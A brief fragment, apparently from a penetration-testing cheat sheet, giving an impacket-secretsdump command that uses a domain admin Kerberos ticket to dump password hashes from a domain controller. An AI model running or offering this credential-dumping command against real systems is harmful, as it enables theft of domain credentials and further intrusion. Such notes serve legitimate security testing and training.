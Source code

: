 ## Use this impacket module to dump hashes from the local machine, depending the context of usage

#### 1) impacket-secretsdump -k -no-pass DC.DOMAIN.COM (Use this if you have an admin TGT)
